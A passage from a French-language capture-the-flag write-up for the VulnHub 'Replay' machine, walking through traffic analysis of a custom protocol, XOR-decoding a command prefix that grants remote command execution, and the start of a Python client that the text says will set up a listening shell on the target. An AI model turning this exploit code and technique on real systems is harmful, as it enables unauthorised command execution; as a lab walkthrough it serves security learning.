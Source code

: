 Mais cela ne mène nul part.  

Il faut donc faire avec les informations à disposition. D'un côté on a ce *P1* trouvé dans le HTML qui signifie certainement partie 1 et une note dans le binaire donnant une seconde partie... il nous suffit de recoller les morceaux :)  

On relance le client avec le bon mot de passe et l'authentification passe. La commande par défaut (le *echo* avec le *whoami*) est bien exécutée. Maintenant il faut pouvoir exécuter les commandes de notre choix et ce sans éditer le binaire.  

Si on regarde la nouvelle capture on remarque une vérification assez basique pour l'étape 2 : le serveur envoie une chaîne base64 et on doit envoyer la valeur décodée.  

![VulnHub Replay CTF first trafic analysis](https://raw.githubusercontent.com/devl00p/blog/master/images/vulnhub/replay_trafic2.png)

L'étape 3 consiste pour le client à envoyer une valeur correspondant à un octet encodé en base64. Puis il envoie un bloc de données plus gros au serveur.  

Vu qu'il est mention de *XOR* dans le binaire ça parait évident que l'octet est la clé qui va servir au serveur à décoder le bloc.  

Pour s'en convaincre on récupère ces données (depuis Wireshark on fait *Suivre > Flux TCP > Tableaux C* pour avoir un format plus facilement exploitable).  

La clé ici correspond au caractère *x* soit 120 en décimal.  

```python
>>> t = [0x48, 0x48, 0x19, 0x1c, 0x15, 0x11, 0x16, 0x1b, 
... 0x15, 0x1c, 0x43, 0x1d, 0x1b, 0x10, 0x17, 0x58, 
... 0x30, 0x1d, 0x14, 0x14, 0x17, 0x58, 0x2f, 0x17, 
... 0x0a, 0x14, 0x1c, 0x54, 0x58, 0x01, 0x17, 0x0d, 
... 0x58, 0x19, 0x0a, 0x1d, 0x58, 0x1b, 0x0d, 0x0a, 
... 0x0a, 0x1d, 0x16, 0x0c, 0x14, 0x01, 0x58, 0x0a, 
... 0x0d, 0x16, 0x16, 0x11, 0x16, 0x1f, 0x58, 0x19, 
... 0x0b, 0x42, 0x58, 0x43, 0x0f, 0x10, 0x17, 0x19, 
... 0x15, 0x11]
>>> "".join([chr(x ^ 120) for x in t])
'00admincmd;echo Hello World, you are currently running as: ;whoami'
```

En conclusion l'exécution des commandes n'est possible que si elles sont précédées de la chaîne *00admincmd;*.  

Armé de tout ça il est facile d'écrire un client pour exécuter nos commandes et vu que l'on spécifie la clé pour le XOR on passera 0 ce qui permettra d'envoyer les commandes en clair.  

Le script suivant met en écoute un shell sur la machine (on profite que les ports ne soient pas filtrés) :  

```python
import socket
from time import sleep
from base64 import b64decode, b64encode

def recv_until(sock, expected):
    buff = b""
    while True:
        buff += sock.recv(1024)
        if expected in buff:
            return buff

sock = socket.socket()
sock.connect(('192.168.2.2', 1337))
recv_until(sock, b"CH1:")
for char in "qGQjwO4h6gh0TAIRNXuQcDu9Lqsyul":
    sock.send(str(ord(char)).encode())
    sleep(.05)

buff = recv_until(sock, b"CH2:").decode()
```